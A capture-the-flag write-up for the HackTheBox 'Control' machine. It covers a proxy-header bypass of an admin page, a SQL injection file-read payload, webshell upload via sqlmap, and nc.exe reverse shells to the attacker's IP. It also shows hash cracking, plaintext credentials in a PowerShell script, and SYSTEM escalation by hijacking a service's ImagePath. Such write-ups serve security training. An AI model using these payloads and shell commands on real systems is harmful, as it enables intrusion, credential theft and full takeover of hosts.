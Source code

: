 ```yaml
---
title: "HTB: Control"
categories:
  - HackTheBox
tags:
  - HackTheBox
---
```



![Control](https://miro.medium.com/max/2866/0*VVgNDHYF1kz8pziK)
# Control



## Website Enumeration

In the source code of the index page for http://control.htb/ we see the following message:
```
<!-- To Do:
	- Import Products
	- Link to new payment system
	- Enable SSL (Certificates location \\192.168.4.28\myfiles)
<!-- Header -->
```

We'll keep this in mind for later.

At http://control.htb/admin.php there's a blank page with the message:

_Access Denied: Header Missing. Please ensure you go through the proxy to access this page_

To bypass this, we'll use the IP we grabbed above and add an X-Forwarded-For header:

```
X-Forwarded-For: 192.168.4.28
```

So, our entire request will look like:

```
GET /admin.php HTTP/1.1

Host: control.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.4.28/
X-Forwarded-For: 192.168.4.28
Connection: close
Upgrade-Insecure-Requests: 1
```

We're given access to the admin.php page!


test' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,load_file('C:/inetpub/wwwroot/admin.php')#

## Getting a Webshell/Reverse Shell

It's possible to upload a webshell using sqlmap:

```
sqlmap -r request.txt --file-dest="C:/inetpub/wwwroot/wolfshell.php" --file-write="wolfshell.php"
```

Using this "wolfshell" we are able to upload nc.exe to the server, and return a reverse shell to ourselves.

## Getting User Credentials

By dumping the DB, we found some credentials for users:

```
0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA
0A4A5CAD344718DC418035A1F4D292BA603134D8
```

If we run these through hashcat, we can get a password!

```
hashcat -m 300 cracked.txt /usr/share/wordlists/rockyou.txt --force
```

We get:

**l33th4x0rhector**

So, our credentials are:

**hector:l33th4x0rhector**

## Pivoting to Hector

Now, using switch.ps1, we are able to open a semi-interactive shell as hector. First, we'll need to give him access to run nc.exe:

```
cacls C:/TEMP/nc.exe /e /p hector:f
```

Now, after uploading our switch.ps1 shell, we can run it:

```
./switch.ps1
[localhost]: PS C:\Users\Hector\Documents> C:/TEMP/nc.exe -nv 10.10.14.26 4444 -e cmd.exe
```

Voila, a fully interactive user cmd shell!

### Switch.ps1 Script

```
function switch-psuser {

    Param(
        [Parameter(Position=0)]
        [ValidateSet("adminsystem","administrator")]
        $User = "adminsystem"
    )

    switch($User)
    {
        'adminsystem'   { $username = "domain\adminsystem" ; $pw = "yyy"}
        'administrator' { $username = "control\hector" ; $pw = "l33th4x0rhector" }
    }

    $password = $pw | ConvertTo-SecureString -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username,$password
    New-PSSession -Credential $cred | Enter-PSSession
}
switch-psuser administrator
```
                                         
Voila, a CONTROL\hector shell!

From here, we need to see what services are running. We can't use accesschk.exe, as we get "Access Denied" and we can't use procmon.exe, as it's completely blocked on the machine. Additionally, we can't use tasklist to list running tasks and get info that way. We can, however, query the registry.

```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\
```

We get a LONG list of services.

We can test to see which of these we can start (note, there are quite a few.) We'll need to copy all of the services, save the list on our local machine, and cut it. 

```
cat services.txt | cut -d '\' -f5 >> servicelist.txt
```

From here, we can use awk to add whatever we need to:

```
awk '{print "sc start " $0}' servicelist.txt | pbcopy
```

I've opted to use pbcopy for this, but we can use whatever program we wish to. We're simply piping the output into our clipboard.

Now, we'll paste this into our command window. Note, it needs to be cmd, not powershell. Powershell doesn't start or stop the services.

We can see that the following service can be started (among others):

```
NetSetupSvc
```

Because it can be started, we'll take a look at the parameters held within the registry for this service:

```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc
    DependOnService    REG_MULTI_SZ    RpcSs
    Description    REG_SZ    @%SystemRoot%\system32\NetSetupSvc.dll,-4
    DisplayName    REG_SZ    @%SystemRoot%\system32\NetSetupSvc.dll,-3
    ErrorControl    REG_DWORD    0x1
    FailureActions    REG_BINARY    FFFFFFFF000000000000000001000000140000000000000000000000
    ImagePath    REG_EXPAND_SZ    %SystemRoot%\System32\svchost.exe -k netsvcs -p
    ObjectName    REG_SZ    LocalSystem
    RequiredPrivileges    REG_MULTI_SZ    SeChangeNotifyPrivilege\0SeImpersonatePrivilege\0SeLoadDriverPrivilege
    ServiceSidType    REG_DWORD    0x1
    Start    REG_DWORD    0x3
    Type    REG_DWORD    0x20

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc\Parameters
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc\Security
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc\TriggerInfo
```

ImagePath looks interesting, as it's calling an executable and passing parameters to it. We'll edit this and see if we can get it to return a shell to us:

```
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc /v ImagePath /t REG_EXPAND_SZ /d "C:\Users\alcibiades\Documents\nc.exe -nv 10.10.14.5 4444 -e cmd.exe"  /f
```

With the ImagePath changed, we'll try to start the service with hector:

```
sc start NetSetupSvc
```

Now, we just catch the shell!

```
Microsoft Windows [Version 10.0.17763.805]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```



